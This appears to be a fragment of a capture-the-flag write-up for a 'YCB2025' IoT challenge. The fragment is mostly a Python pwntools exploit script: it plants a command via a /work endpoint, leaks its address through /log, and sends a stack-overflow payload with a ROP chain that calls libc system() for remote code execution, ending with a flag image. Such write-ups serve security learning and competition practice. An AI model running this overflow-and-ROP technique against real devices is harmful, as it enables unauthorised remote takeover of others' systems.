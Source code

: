 ```python
response = requests.post(f'{URL_BASE}/work', data=f'data={cmd}\r\n')
match = re.search(r'Total=(\d+)', response.text)
assert match
slot = int(match.group(1)) - 1
info(f'Hijack httpd to run {cmd} at slot {slot}')

# Then fetch its address
response = requests.post(f'{URL_BASE}/log', data=f'index={slot}')
match = re.search(r'0x[a-f0-9]+', response.text)
assert match
rce = int(match.group(0), 16)
success(GOLD_TEXT(f'Found RCE command on {rce:#x}'))

# Construct a payload to perform ROP
gadgets = ROP(libc)
chain = flat(gadgets.rdi.address, rce,
             gadgets.ret.address, # balance stack
             libc.symbols['system'],
             gadgets.rdi.address, 0,
             libc.symbols['exit'])

# Finally trigger the ROP
t = remote(IP, PORT)
payload = b'data=' + pack(0, 0x48 * 8) + chain + b'YCB2025\n\n'
body = f'''POST /work HTTP/1.0\r
Host: {IP}:{PORT}\r
Content-Length: {len(payload)}\r
\r
'''.encode()
t.send(body + payload)
t.close()
```

{% note default fa-flag %}
![flag](/assets/ycb2025/iot_flag.png)
{% endnote %}
